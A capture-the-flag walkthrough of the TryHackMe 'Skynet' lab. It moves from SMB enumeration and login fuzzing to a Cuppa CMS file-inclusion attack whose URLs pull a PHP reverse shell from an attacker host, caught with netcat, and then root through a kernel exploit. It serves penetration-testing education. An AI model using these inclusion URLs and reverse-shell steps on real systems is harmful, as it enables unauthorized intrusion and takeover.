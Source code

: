 ```yaml
---
description: https://tryhackme.com/room/skynet
---
```


# Skynet

## Nmap

```
nmap 10.10.244.119 -p- -A -T4

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: TOP RESP-CODES SASL CAPA AUTH-RESP-CODE PIPELINING UIDL
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: IMAP4rev1 ID ENABLE LOGINDISABLEDA0001 SASL-IR LOGIN-REFERRALS capabilities have post-login listed OK Pre-login more LITERAL+ IDLE
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Task 1 #1**

![](<../../../.gitbook/assets/image (114) (1).png>)

We can begin by looking at our `nmap` results with the open samba shares. If we open up enum4linux and define the -a switch which stands for "Do all simple enumeration (-U -S -G -P -r -o -n -i)."

```
enum4linux -a <IP>
```

Using this we pull user and share information:

![Running enum4linix](<../../../.gitbook/assets/image (115) (1).png>)

We have a user account of milesdyson and we can now check some shares out. As we can see from the above output access is denied for the milesdyson share but, anonymous should be open for us.

We can use `smbclient` to connect.

![accessing the anonymous share on samba](<../../../.gitbook/assets/image (116).png>)

We can download any files with the get command. Grab the log files inside the logs directory. Log1.txt contains some potential passwords. For now we are finished with the Samba side of things.

We could now answer question #1 with the information that we have. Lets move onto the next interesting port and verify the answer to the quesiton.

## Port 80

Moving on over to port 80 we come to the following root directory.

![Webserver on port 80](<../../../.gitbook/assets/image (117) (1).png>)

I was not able to extract any interesting information from this page so I next turned to directory brute forcing.

We will be using gobuster as per below:

![Running gobuster on port 80](<../../../.gitbook/assets/image (118) (1).png>)

gobuster does not come preinstalled on Kali Linux so you will need to install with:

`sudo apt-get install gobuster`

the directory /squirrelmail/ is of interest. Once loaded we can put in the username we grabbed from our samba enumeration earlier.

Since we do not have many password to try we could manually try each password until we hit a valid result.

I will be using OWAS ZAP to fuzz for a valid response instead. I will not be detailing the process for setting up ZAP but you can find a great room on TryHackMe.com for setting up ZAP and a section on how to brute force web logins.

![https://tryhackme.com/room/learnowaspzap](<../../../.gitbook/assets/image (119) (1).png>)

The following results have been shortened but as you can see once the fuzz on the password has completed we can measure the response size field in order to determine a response that would indicate a correct password has been found. Looking at the "Size Resp. Body" Column we can determine this password is valid (this has been removed from the image as per THM writeup guidelines)

![Fuzzing with OWASP ZAP](<../../../.gitbook/assets/image (120) (1).png>)

After trying the username "milesdyson" which we found with `enum4linux` earlier on I added the password found above and was able to login to SquirrelMail.

![SquirrelMail](<../../../.gitbook/assets/image (121) (1).png>)

We can now use this to answer Task 1 #1

The latest email in the inbox looks interesting. When you open the email you should the samba password for milesdyson has been reset. Lets try `smbclient` again.

![milesdyson samba share on the server.](<../../../.gitbook/assets/image (123).png>)

Lets grab the important.txt file with the `get` command and take a look at the contents with the `cat` command.

![important.txt](<../../../.gitbook/assets/image (124) (1).png>)

Looking at number one this looks like a possible directory. Lets check it out.

![the directory /45kra24zxs28v3yd](<../../../.gitbook/assets/image (125) (1) (1).png>)

We can also use this information to answer question #2.

As the hidden directroy did not contain any interesting information we can return to gobuster and further enumerate.

![enumerating further with gobuster](<../../../.gitbook/assets/image (126) (1).png>)

We find the /administrator/ directory which takes us to the following webpage:

![Cuppa CMS /administrator/](<../../../.gitbook/assets/image (127) (1).png>)

I tried some of the milesdyson credentials we have gathered so far and was unable to login. I next turned to `searchsploit` to look for any known exploits:

![using seachsploit](<../../../.gitbook/assets/image (128).png>)

This takes us to the following exploit on exploit-db [https://www.exploit-db.com/exploits/25971](https://www.exploit-db.com/exploits/25971)

After reading through the exploit we have a few methods on how we can proceed. I will be using the local file inclusion to call a reverse PHP shell.

```
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
```

Download the php file from the following URL: [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Put this in a directory and edit the variables in the script to point back to the attacking machine. Start a python server on the directory with:

```
python -m SimpleHTTPServer
```

After this edit the exploit LFI URI to include the remote machine IP and to include the hidden directory we found earlier. We then need to change the end of the URI to represent the python server on the attacking machine.

```
http://<IP>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<Attacking IP>:<port>/phpshell.php
```

{% hint style="info" %}
Unless specified Python will use port 8000 as the port.
{% endhint %}

Before executing the LFI we need to set up a netcat listener to catch the shell.

```
sudo nc -lvp 443
```

I use port 443 as its usually reliable for accepting inbound connections. You will need to use sudo to set this port as it is in the 1-1024 range. Once the listener is running attempt to browse to our exploit URI and we should get a shell.

![netcat](<../../../.gitbook/assets/image (129) (1).png>)

From here we can grab the user.txt flag

![Grabbing user.txt](<../../../.gitbook/assets/image (130).png>)

## Privilege escalation

From here we have a backups folder in milesdyson's home directory which has an interesting bash script which can be used for privilege escalation. We will be gaining root by a different method.

First of all I downloaded `Linuxexploitsuggester.sh` onto the victim machine and run it. We receive a few good probable exploits. The one we are interested in is CVE-2017-16995.

![](<../../../.gitbook/assets/image (131).png>)

Head over to exploited-db at the following link: [https://www.exploit-db.com/exploits/45010](https://www.exploit-db.com/exploits/45010)

Download the C code and upload it to the victim machine though the python SimpleHTTPServer which should still be running.

![Downloading the exploit](<../../../.gitbook/assets/image (132) (1).png>)

Now we need to compile the code. We have `gcc` installed on the machine and can use this to compile the exploit. Once compiled we need to ensure we can execute it by using `chmod +x`we can now run the exploit. I did not receive any confirmation once completed. We should have root after a short while. From here grab the root.txt flag from /root/root.txt

![Grabbing root.txt](<../../../.gitbook/assets/image (133) (1).png>)
